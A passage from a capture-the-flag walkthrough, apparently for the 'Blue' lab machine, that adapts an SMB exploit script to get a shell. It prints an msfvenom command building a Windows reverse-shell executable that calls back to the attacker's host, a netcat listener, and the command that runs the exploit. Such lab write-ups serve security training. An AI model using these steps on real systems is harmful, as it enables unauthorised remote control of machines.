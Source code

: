 In your text editor with blue.py open, search for “def smb_pwn”.  You should see it around line 913 or so in the code.  

![](/images/blue/19. blue.py.edit.png "edit blue.py")

Immediately below in the commented out block (blue-ish text above) we see additional code and notes.  This code uses smb to send a file to the remote machine and then execute it.  The notes tell us we can gain a shell by making an exe file, sending it and exeuting it on the target.

To do this, we need to make our own Windows executable to give us a reverse shell. The easiest way to do this is using msfvenom:  msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.24 LPORT=443 -f exe > blue.exe

-p for payload, in this case a Windows reverse tcp shell

LHOST= is our attacking machine, with LPORT= 443 we will be listening on using nc

-f for format, exe in this case for a Windows executable file

\> finally we redirect the output into an exe file (blue.exe)

    msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.24 LPORT=443 -f exe > blue.exe

![](/images/blue/20. msfvenom.png "msfvenom")

Next we need to adjust the code block above. We do not want to create the text file so we can comment out lines 916-920. Then to upload our blue.exe and execute it we will un-comment lines 922 and 923 and alter them. Lastly, I always like to include the msfvenom command I used to generate the exploit in case I need to go back and look at the code later.

Alter your code to look like this:

![](/images/blue/21. blue.py.edit.png "edit blue.py")

Changes: commented out lines 916-920.  Un-commented and changed lines 922 and 923.  Added commented line 924.

The last change we need to make is back near the top of the script, somehwere near line 40:

![](/images/blue/22. blue.py.edit_password.png "edit blue.py username/password")

Add // between the single quotes so it looks like this:

![](/images/blue/23. blue.py.edit_password.png "edit blue.py username/password")

Save your blue.py, and let's set up our listener on port 443 in another terminal window:

    nc -lvnp 443

![](/images/blue/24. nc_listener.png "nc listener")

Now let's run our exploit:

    python blue.py 10.10.10.40 netlogon

![](/images/blue/25. blue.py_exploit.png "run the blue.py exploit")

So even though it looks like we received an error...over in our second terminal window we see the connection:
